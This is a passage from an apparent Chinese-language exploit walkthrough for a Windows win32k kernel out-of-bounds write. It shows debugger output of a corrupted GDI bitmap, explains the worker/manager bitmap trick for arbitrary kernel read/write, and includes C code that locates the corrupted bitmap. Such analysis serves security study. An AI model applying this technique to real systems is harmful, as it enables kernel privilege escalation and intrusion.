   
当越界写入操作完成时，sizlBitmap成员的大小就被扩大为0x1 * 0xFFFFFFFF = 0xFFFFFFFF，sizelBitmap成员的前一个成员，即hdev被修改为非0，而之后的成员，特别是pvScan0并没有被修改。  
```
3: kd> g
Breakpoint 1 hit
win32kfull!bFill+0x46c:
fffff961`4a4c9190 ff156a7f0800    call    qword ptr [win32kfull!_imp_bConstructGET (fffff961`4a551100)]
3: kd> p
win32kfull!bFill+0x472:
fffff961`4a4c9196 8bd8            mov     ebx,eax
3: kd> dq fffff901458b0fb0 + 0x50 + 0xBC0
fffff901`458b1bc0  ffffffff`00000014 005a0b00`00000000
fffff901`458b1bd0  00000001`00000000 00000000`00000001
fffff901`458b1be0  fffff901`458b0fb0 00000000`0000001f
fffff901`458b1bf0  ffffffff`00000000 006a1f00`004a1f00
fffff901`458b1c00  00000001`00000000 00000001`ffffffff     // 此时sizlBitmap被扩大，且0xffff901`458b1c00中的hdev被修改了
fffff901`458b1c10  00000000`00000170 fffff901`458b1e28     // pvScan0指向的地址没有被修改，是正常的
fffff901`458b1c20  fffff901`458b1e28 00002e5b`00000170
fffff901`458b1c30  00010000`00000006 00000000`00000000
```  
  
  
此时的sizlBitmap成员被扩大，也就是通过SetBitmapBits和GetBitmapBits对该BitMap对象可读写的地址被扩大了，而pvScan0并没有被修改，所以此时就可以将该BitMap对象作为work，将相邻页中的BitMap对象作为manger，通过修改相邻页中的BitMap对象中的pvScan0来实现任意地址读写。  
  
  
获取work的方法也很简单，当创建BitMap对象的时候，指定的可读写的内存大小为0x5C * 1 * 32 / 8 = 0x170，所以可以遍历BitMap句柄的数组，调用GetBitmapBits来判断可读写的内存大小是否超过这个值，如果超过，说明该BitMap被修改了，相应代码如下：  
```
pBuf_2016_3309 = (PULONG64)malloc(0x1000);
if (!pBuf_2016_3309)
{
    bRet = FALSE;
    ShowError("malloc", GetLastError());
    goto exit;
}

ZeroMemory(pBuf_2016_3309, 0x1000);

for (i = 0; i < dwBitNum; i++)
{
    if (GetBitmapBits(hBitMap[i], 0x1000, pBuf_2016_3309) > 0x170)
    {
        g_hWorker_2016_3309 = hBitMap[i];
        g_hManager_2016_3309 = hBitMap[i + 1];
        break;
    }
}

if (!g_hWorker_2016_3309 || !g_hManager_2016_3309)
{
    printf("not find BitMap\n");
    bRet = FALSE;
    goto exit;
}
```  
  